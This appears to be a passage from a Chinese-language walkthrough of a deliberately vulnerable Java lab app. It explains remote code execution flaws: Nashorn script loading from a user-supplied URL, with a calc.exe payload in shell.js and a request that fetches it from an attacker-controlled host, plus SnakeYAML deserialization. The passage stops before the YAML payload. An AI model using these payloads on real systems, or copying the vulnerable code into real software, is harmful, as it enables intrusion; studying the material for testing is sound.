 注意，在windows系统里

```
String[] arrCmd = {"cmd.exe", "/c", cmd};
```

我们需要在源代码中修改，不然命令执行会报错



![image-20241206202436880](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412062024910.png)

#### 3./rce/jscmd

```java
    @GetMapping("/jscmd")
    public void jsEngine(String jsurl) throws Exception{
        // js nashorn javascript ecmascript
        ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");
        Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);
        String cmd = String.format("load(\"%s\")", jsurl);
        engine.eval(cmd, bindings);
    }
```

我们可以看到它接收一个名为 `jsurl` 的参数；

然后使用 Nashorn JavaScript 引擎执行传入 URL 所加载的 JavaScript 脚本。

由于命令无回显，我们可以通过报错来判断

shell.js

```
var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("calc.exe");
```

```
/rce/jscmd?jsurl=http://ip/shell.js
```

![image-20250522213856792](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202505222139928.png)

说不存在clac.exe，的确不存在，这说明命令成功执行



#### 4./rce/vuln/yarm

```java
   @GetMapping("/vuln/yarm")
    public void yarm(String content) {
        Yaml y = new Yaml();
        y.load(content);
    }
```

`SnakeYaml`是用来解析yaml的格式，可以用于Java对象的序列化、反序列化。该代码利用SnakeYAML存在的反序列化漏洞来rce，在解析恶意 yml 内容时会完成指定的动作，实现命令执行。我们所加载的yaml文件如下：
